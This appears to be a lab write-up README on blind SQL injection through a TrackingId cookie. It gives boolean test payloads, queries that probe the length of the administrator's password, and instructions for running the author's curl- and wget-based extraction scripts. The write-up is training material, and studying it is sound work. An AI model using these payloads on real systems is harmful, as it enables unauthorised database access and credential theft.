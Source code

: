 
### First we intercept the request using Burp and then test the TrackingId cookie parameter for injection vulnerability. If we get a "Welcome back!" in the response, then its vulnerable.
```

'+AND+'1'='1

```

#### Result
![image](https://user-images.githubusercontent.com/86168235/125645177-b1c3135a-84ef-40ac-b7bf-8ee76b8a8593.png)

## Password Length Determination

### Manual method

#### Note, I've added a script to automate the password length count. If you want to do it manually then use following query
```

'+AND+(SELECT+'a'+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)>1)%3d'a;
'+AND+(SELECT+'a'+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)>2)%3d'a;
'+AND+(SELECT+'a'+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)>3)%3d'a;
and so on...

```
### Automated method
#### Just make the `pass_len_count.sh` script executable with `chmod +x pass_len_count.sh` and then run the command as follows
```

./pass_len_count.sh "vulnerable_target_url" "TrackingId cookie"

```
#### Example

![image](https://user-images.githubusercontent.com/86168235/125658846-8c6df64c-6bec-444f-af51-0df8f97f9d4a.png)


## Password Determination

If you've made this far, then you're pretty experienced now. So, I won't be explaining anything and just showing how to execute the scripts I've written.
There are two bash scripts`blind_sqli_wget.sh` and `blind_sqli_curl.sh` which will give you the password(I wanted to create a python one too but due to lack of time I couldn't 😔). 

### Wget2
![image](https://user-images.githubusercontent.com/86168235/125660753-9c034a97-f950-4350-8ba0-cf54f8db2221.png)

**Note**:- I've used wget2 instead of wget(yes there is **wget2**, *the more you know*) as I've tested and found it to be 10-15% faster than both **curl** and **wget**. If you don't want to install another tool, then you can edit the script and change **wget2** to wget.


### Curl
![image](https://user-images.githubusercontent.com/86168235/125661498-0f37d453-9326-42d6-8b3d-40fb0271ec5a.png)


